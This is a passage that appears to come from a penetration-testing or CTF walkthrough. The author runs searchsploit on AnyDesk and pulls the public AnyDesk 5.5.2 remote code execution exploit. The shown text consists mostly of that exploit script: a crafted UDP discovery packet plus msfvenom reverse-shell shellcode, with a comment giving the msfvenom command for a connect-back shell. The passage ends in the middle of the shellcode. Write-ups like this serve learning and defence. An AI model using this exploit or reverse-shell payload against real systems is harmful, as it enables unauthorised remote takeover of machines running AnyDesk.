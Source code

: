 I run a **searchsploit** to see if there are any vulnerabilities and see one with RCE:

`searchsploit anydesk`

```bash
---------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ---------------------------------
AnyDesk 2.5.0 - Unquoted Service Path Privilege Escalation            | windows/local/40410.txt
AnyDesk 5.4.0 - Unquoted Service Path                                 | windows/local/47883.txt
AnyDesk 5.5.2 - Remote Code Execution                                 | linux/remote/49613.py
---------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

I pull it over and open it up to look at the code:

`searchsploit -m 49613`

```python
# Exploit Title: AnyDesk 5.5.2 - Remote Code Execution
# Date: 09/06/20
# Exploit Author: scryh
# Vendor Homepage: https://anydesk.com/en
# Version: 5.5.2
# Tested on: Linux
# Walkthrough: https://devel0pment.de/?p=1881

#!/usr/bin/env python
import struct
import socket
import sys

ip = '192.168.x.x'
port = 50001

def gen_discover_packet(ad_id, os, hn, user, inf, func):
  d  = chr(0x3e)+chr(0xd1)+chr(0x1)
  d += struct.pack('>I', ad_id)
  d += struct.pack('>I', 0)
  d += chr(0x2)+chr(os)
  d += struct.pack('>I', len(hn)) + hn
  d += struct.pack('>I', len(user)) + user
  d += struct.pack('>I', 0)
  d += struct.pack('>I', len(inf)) + inf
  d += chr(0)
  d += struct.pack('>I', len(func)) + func
  d += chr(0x2)+chr(0xc3)+chr(0x51)
  return d

# msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.y.y LPORT=4444 -b "\x00\x25\x26" -f python -v shellcode
shellcode =  b""
shellcode += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48"
shellcode += b"\x8d\x05\xef\xff\xff\xff\x48\xbb\xcb\x46\x40"
shellcode += b"\x6c\xed\xa4\xe0\xfb\x48\x31\x58\x27\x48\x2d"
shellcode += b"\xf8\xff\xff\xff\xe2\xf4\xa1\x6f\x18\xf5\x87"
shellcode += b"\xa6\xbf\x91\xca\x18\x4f\x69\xa5\x33\xa8\x42"
shellcode += b"\xc9\x46\x41\xd1\x2d\x0c\x96\xf8\x9a\x0e\xc9"
shellcode += b"\x8a\x87\xb4\xba\x91\xe1\x1e\x4f\x69\x87\xa7"
shellcode += b"\xbe\xb3\x34\x88\x2a\x4d\xb5\xab\xe5\x8e\x3d"
shellcode += b"\x2c\x7b\x34\x74\xec\x5b\xd4\xa9\x2f\x2e\x43"
shellcode += b"\x9e\xcc\xe0\xa8\x83\xcf\xa7\x3e\xba\xec\x69"
```